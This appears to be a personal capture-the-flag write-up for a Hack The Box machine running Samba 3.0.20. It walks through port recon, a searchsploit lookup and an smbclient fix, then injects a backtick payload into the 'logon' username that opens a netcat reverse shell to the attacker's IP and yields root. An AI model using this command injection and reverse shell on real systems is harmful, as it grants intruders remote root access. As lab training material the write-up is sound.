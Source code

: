 # Recon

- I'v found that there is 2 open ports with samba service!
1.  139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 
2.  445/tcp  open              syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

- As usual, let's check for vulnerabilities in this Samba version, but this time, we'll use searchsploit tool.
![[Pasted image 20231107214258.png]]

-  so as we can see, we found a code execution vulnerability in the same samba version 3.0.20.
-  let's use the flag -x in searchsploit to examine the script, and do things manually as usual.
![[Pasted image 20231107214530.png]]
![[Pasted image 20231107215023.png]]
-  so as we can see in the payload line : 
  ```
  username = "/=`nohup " + payload.encoded + "`"
  ```
  -  so we will later tweak it a bit to be compatible with our use case.
  1. the nohup used to run commands in background, allowing it to continue running even after you log out of the system.
  2. any command inside backticks char's "\`"  will allow as to use the output of one command as input for another like $().
   ![[Pasted image 20231107220445.png]]

- Let's utilize the smbmap tool to identify any shared files with accessible permissions, and then try to logon within the samba server and trigger the vuln...
![[Pasted image 20231107201954.png]]

- as we can see in the screenshot above, we have READ and WRITE permession to tmp directory and with a comment saying oh noes! so let's check it out.
- While attempting to connect to the "tmp" directory via Samba, I encountered a bug, as illustrated in the screenshot below.
![[Pasted image 20231107222637.png]]
- If you encounter this issue, here's how to resolve it and an explanation for why it happened on this Link :   ``` https://forum.hackthebox.com/t/having-smb-enum-issues-read-this/2369```
 1. Open the smb.conf file located at /etc/samba/smb.conf. If it doesn't exist, create it, and then open it with your preferred text editor.
    ![[Pasted image 20231107223106.png]]
 2. then add this line and save quit. 
    ```
    client min protocol=NT1
    ```
  ![[Pasted image 20231107223418.png]]

  ---
# Exploitation


  - and now here we are connection established successfully :
    ![[Pasted image 20231107223608.png]]
 - Now, let's see if we can execute a command to prompt for input credentials, which will help us inject our payload into the username input.
   ![[Pasted image 20231107224045.png]]
   -  As shown in the screenshot above, we used the 'help' command to display a list of available commands, and subsequently, we identified the 'logon' command as the means to reach our desired objective.
![[Pasted image 20231107231613.png]]


- so now the plan is to use the nohup command and the backticks to get shell on the machine in username input filed with a random password when asked.
```
  logon "/=`nohup nc -e /bin/bash 10.10.16.7 443`"
```


- We employed the 'nc' command to establish a connection back to our attacker machine via port 443 with -e flag to execute cmd /bin/bash on the victim machine and send connection back to us, so we need to listen from attacker machine.
![[Pasted image 20231107225645.png]]

  - Hoorayy!  here we are Root :D 
    ![[Pasted image 20231107230824.png]]
- no we just need to upgrade the shell with python and find the 2 flags user & root !
![[Pasted image 20231107233127.png]]

- using find command to get the flags : 
![[Pasted image 20231107233443.png]]



